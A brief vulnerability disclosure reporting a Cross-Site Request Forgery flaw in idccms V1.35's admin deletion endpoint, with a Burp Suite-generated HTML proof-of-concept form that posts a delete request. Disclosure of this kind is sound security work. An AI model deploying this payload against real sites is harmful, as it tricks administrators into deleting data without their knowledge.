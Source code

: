 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/homePro_deal.php?mudi=del&dataType=&dataTypeCN=%E9%A6%96%E9%A1%B5%E4%BA%A7%E5%93%81&theme=%E7%BD%91%E9%92%9BIDC%E4%BA%91%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&dataID=2

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/homePro_deal.php?mudi=del&dataType=&dataTypeCN=%E9%A6%96%E9%A1%B5%E4%BA%A7%E5%93%81&theme=%E7%BD%91%E9%92%9BIDC%E4%BA%91%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&dataID=2" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
